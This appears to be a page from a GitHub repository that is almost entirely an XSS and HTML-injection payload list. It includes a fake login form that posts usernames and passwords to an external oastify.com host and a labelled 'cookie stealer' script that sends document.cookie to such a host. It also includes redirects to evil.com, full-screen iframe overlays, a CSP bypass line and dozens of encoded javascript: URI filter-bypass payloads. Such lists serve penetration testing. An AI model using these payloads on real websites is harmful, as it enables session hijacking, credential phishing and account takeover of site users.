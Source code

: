 
<A HREF="[http://evil.com/](http://evil.com/ "http://evil.com/")">Login Here </A>  
  
<script>document.location.href="[http://evil.com](http://evil.com "http://evil.com/")"</script>  
  
<h3>Please login to proceed</h3> <form action=[http://abp16yqa8m56p2kznk76xvmnqew5kwakz.oastify.com](http://abp16yqa8m56p2kznk76xvmnqew5kwakz.oastify.com "http://abp16yqa8m56p2kznk76xvmnqew5kwakz.oastify.com/")>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Login"></br>  
  
csp bypass:  
<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'  
  
iframe:  
"><iframe src="[https://nasa.gov](https://nasa.gov "https://nasa.gov/")" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100%">  
  
<IFRAME SRC="javascript:alert(document.cookie);"></iframe>  
  
cookie stealer:  
<script>document.location='[http://sb7j6gqs845opkkhn27oxdm5qwwnks8h.oastify.com?c='+document.cookie](http://sb7j6gqs845opkkhn27oxdm5qwwnks8h.oastify.com?c='+document.cookie "http://sb7j6gqs845opkkhn27oxdm5qwwnks8h.oastify.com/?c='+document.cookie")</script>  
  
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie</script>  
  
<script>document.body.background=”[https://www.jhadol.com/images/photos/original/1465212129eukl.jpg](https://www.jhadol.com/images/photos/original/1465212129eukl.jpg "https://www.jhadol.com/images/photos/original/1465212129eukl.jpg")“;</script>  
  
<script>window.location=”[https://coffinxp.000webhostapp.com/coffinxp1.html](https://coffinxp.000webhostapp.com/coffinxp1.html "https://coffinxp.000webhostapp.com/coffinxp1.html")”;</script>  
  
<script>document.body.bgColor=”red”;</script>

**_Payloads_**:  
//%01javascript:alert(1)  
%09Jav%09ascript:alert(1)  
%09Jav%09ascript:alert(document.domain)  
/%09/javascript:alert(1)  
/%09/javascript:alert(1);  
//%0Aalert(1)  
////%0Aalert(1)  
//%0D%0Aalert(1)  
/%5cjavascript:alert(1)  
/%5cjavascript:alert(1);  
//%5cjavascript:alert(1)  
//%5cjavascript:alert(1);  
";alert(0);//  
";alert(0);//bash  
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+  
data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==  
java%0d%0ascript%0d%0a:alert(0)  
javascript://%0aalert(document.cookie)  
javascript://%00alert(1)  
javascript://%0aalert(1)  
javascript://%0Aalert(1)  
javascript://%250A1?alert(1):0  
javascript://%250Aalert(1)  
javascript://%250Aalert(1)//?1  
javascript://%250Alert(document.location=document.cookie)  
javascript:alert(0)  
//javascript:alert(1)  
//javascript:alert(1);  
/javascript:alert(1)  
/javascript:alert(1);  
<>javascript:alert(1);  
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)  
javascript:alert(1)  
javascript:alert(1);  
javascript:alert(1)%0d%0a  
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)  
javascript:confirm(1)  
javascript://[https://whitelisted.com/?z=%0Aalert(1)](https://whitelisted.com/?z=%0Aalert(1) "https://whitelisted.com/?z=
alert(1)")  
javascript:prompt(1)  
javascript:void(0);alert(1)  
jaVAscript://whitelisted.com//%0d%0aalert(1);//  
javascript://whitelisted.com?%a0alert%281%29  
javascript://whitelisted.com/?z=%0Aalert(1)  
/x:1/:///%01javascript:alert(document.cookie)/
